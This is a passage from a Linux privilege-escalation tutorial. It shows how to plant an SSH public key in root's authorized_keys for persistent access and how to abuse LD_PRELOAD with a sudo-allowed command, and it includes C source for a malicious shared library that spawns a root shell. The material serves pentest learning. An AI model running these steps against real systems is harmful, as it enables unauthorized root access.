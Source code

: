 If we can write in the `/.ssh/`{: .filepath} we can write our public key inside the target machine, at `/home/user/.ssh/authorized_keys`{: .filepath}. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user.
First, create a new key. Copy the `key.pub` inside `/root/.ssh/authorized_keys`{: .filepath}:
```console
zero@pio$ ssh-keygen -f keys

victim@machine$ echo "ssh-rsa AAAAB...SNIP...M= user@zeropio" >> /root/.ssh/authorized_keys

zero@pio$ ssh root@10.10.10.10 -i key
root@remotehost$ 
```

---

# Shared Libraries 

It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs. There are two types on Linux **static libraries** (with the extension `.a`) and **dynamically linked shared object libraries** (with the extension `.so`). Dynamic libraries can be modified to control the execution of the program that calls them.

There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the `-rpath` or `-rpath-link` flags when compiling a program, using the environmental variables **LD_RUN_PATH** or **LD_LIBRARY_PATH**, placing libraries in the `/lib`{: .filepath} or `/usr/lib`{: .filepath} default directories, or specifying another directory containing the libraries within the `/etc/ld.so.conf`{: .filepath} configuration file. Additionally, the **LD_PRELOAD** environment variable can load a library before executing a binary. The shared objects required by a binary can be viewed using the `ldd` utility:
```console
zero@pio$ ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
```

## LD\_PRELOAD Privilege Escalation 

First, we need a user with sudo privileges.
```console
zero@pio$ sudo -l 

...
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

We can exploit the **LD_PRELOAD** issue to run a custom shared library file. Let's compile the following library:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```